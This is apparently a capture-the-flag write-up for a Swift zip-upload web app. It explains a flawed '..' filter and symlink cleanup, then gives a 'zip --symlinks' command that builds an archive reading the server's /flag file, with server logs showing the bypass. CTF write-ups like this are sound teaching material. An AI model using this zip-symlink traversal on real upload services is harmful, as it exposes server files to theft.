# zipviewer-version-citizen

![Untitled](zipviewer-version-citizen%2057a65973dca143fdb14d63e8d1fa84bd/Untitled.png)

| framework | swift |
| --- | --- |
| vulnerability | zipslip & zip symlink & improper validation |

# Description

This website allows users to upload zip files and then download the unzipped individual files.

# Code Analysis

The vulnerability is embedded within the **`upload`** route. 

### upload logic

```kotlin
let fileList = try GetEntryListInZipFile(fileName: fileName)
**_ = try Unzip(filename: fileName, filepath: filePath)**

guard try **CleanupUploadedFile(filePath: filePath, fileList: fileList)** else {
    throw Abort(.internalServerError, reason: "Something Wrong - CleanupUploadedFile")
}
```

The upload logic retrieves the file list of the uploaded zip file using the **`GetEntryListInZipFile()`** method. It then unzips the uploaded file to a random directory. Finally, it searches the unzipped directory for the existence of any symbolic links (symlinks) using the **`CleanupUploadedFile()`** method. 

### GetEnryListInZipFile()

```kotlin
func GetEntryListInZipFile(fileName: String) throws -> [String] {
    var entryList: [String] = []

    let archiveURL = URL(fileURLWithPath: fileName)

    guard let archive = try Archive(url: archiveURL, accessMode: .read) else  {
        return entryList
    }

    **for entry in archive {
        var components = entry.path.components(separatedBy: "/")
        components = components.filter { $0 != ".." }
        entryList.append(components.joined(separator: "/"))
    }**

    return entryList
}
```

The **`GetEntryListInZipFile`** method sanitizes the paths by removing any **`..`** paths and returns the real file paths.

### CleanUploadedFile

```kotlin
func CleanupUploadedFile(filePath: String, fileList: [String]) throws -> Bool {
    do {
        let fileManager = FileManager()
        let currentWorkingPath = fileManager.currentDirectoryPath

        for fileName in fileList {
            var originPath = URL(fileURLWithPath: currentWorkingPath)

            originPath.appendPathComponent(filePath)
            originPath.appendPathComponent(fileName)
            print("Check File >> \(originPath.path)")
            if !fileManager.fileExists(atPath: originPath.path) {
                print("file not found")
                continue
            }

            **if (try IsSymbolicLink(filePath: originPath.path)) {
                print("Find Symbol!! >> \(originPath.path)")
                try fileManager.removeItem(at: originPath)
            }**
        }
    } catch {
        return false
    }

    return true
}
```

As demonstrated, the **`CleanUploadedFile()`** function looks for symlinks in the provided file list. If it finds any, it deletes the corresponding file.

# Exploit

```kotlin
zip --symlinks a.zip a/../flag
```

For example, by creating a zip file like the one above, the **`flag`** file is symbolic linked to the **`/flag`** file. When unzipped, this creates files in paths like **`a`** and **`a/../flag`**. The **`GetEntryListInZipFile()`** method then converts the file path **`a/../flag`** into **`a/flag`**, which does not actually exist in the **`a`** directory.

![Untitled](zipviewer-version-citizen%2057a65973dca143fdb14d63e8d1fa84bd/Untitled%201.png)

```swift
dist-zipviewer-version-citizen-1  | Before : ["a", "..", "flag"]
dist-zipviewer-version-citizen-1  | After : ["a", "flag"]
dist-zipviewer-version-citizen-1  | File Count 1
dist-zipviewer-version-citizen-1  | ["a/flag"]
dist-zipviewer-version-citizen-1  | Check File >> /app/Upload/8d491ed655aeea45ea4eac5dfa1176e152cc1174d5348f070067c81a4eadd26a/a/flag
dist-zipviewer-version-citizen-1  | file not found
```

Upon uploading this zip file, the **`CleanupUploadedFile()`** method cannot find the **`flag`** file because it does not exist in the **`a`** directory, as indicated by the log and the picture.

All that's left is to access the decompressed flags and read the files that actually exist in `/flag`.